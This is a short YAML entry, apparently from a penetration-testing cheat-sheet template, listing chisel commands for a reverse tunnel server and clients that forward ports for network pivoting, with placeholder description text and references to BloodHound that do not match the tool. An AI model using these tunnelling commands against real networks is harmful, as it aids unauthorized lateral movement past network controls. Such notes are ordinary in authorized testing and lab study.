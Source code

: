 ```yaml
---
description: |
  Description here

  Command Reference:

  	Command Reference here

command: |
  chisel server --port 8000 --reverse

client: |
  chisel.exe client 10.10.14.7:9999 9999:localhost:443
  chisel client 192.168.119.124:9999 8081:127.0.0.1:80


attack_types:
  - Pivot

references:
  - https://github.com/BloodHoundAD/BloodHound
  - https://github.com/fox-it/BloodHound.py
---
```

